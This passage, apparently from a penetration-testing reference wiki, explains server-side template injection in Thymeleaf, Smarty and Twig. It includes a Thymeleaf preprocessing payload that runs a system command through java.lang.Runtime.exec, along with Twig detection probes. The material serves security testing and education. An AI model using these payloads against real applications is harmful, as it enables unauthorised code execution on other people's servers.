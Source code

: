 Chances that the above detection payload would work are, however, very low. SSTI vulnerabilities usually happen when a template is dynamically generated in the code. Thymeleaf, by default, doesn’t allow such dynamically generated templates and all templates must be created earlier. Therefore, if a developer wants to create a template from a string _on the fly_, they would need to create their own TemplateResolver. This is possible but happens very rarely.

If we take a deeper look into the documentation of the Thymeleaf template engine, we will find an interesting feature called _**expression preprocessing**_. Expressions placed between double underscores \(`__...__`\) are preprocessed and the result of the preprocessing is used as part of the expression during regular processing. Here is an official example from Thymeleaf documentation:

```text
#{selection.__${sel.code}__}
```

#### Vulnerable example

```markup
<a th:href="@{__${path}__}" th:title="${title}">

http://localhost:8082/(7*7)
http://localhost:8082/(${T(java.lang.Runtime).getRuntime().exec('calc')})
```

#### More information

* [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)

### Smarty \(PHP\)

#### More information

* In Smarty section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection\#smarty](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty)

### Twig \(PHP\)

* `{{7*7}} = 49`
* `${7*7} = ${7*7}`
* `{{7*'7'}} = 49`
* `{{1/0}} = Error`
* `{{foobar}} Nothing`

#### More information

* In Twig and Twig \(Sandboxed\) section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection\#twig](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig)
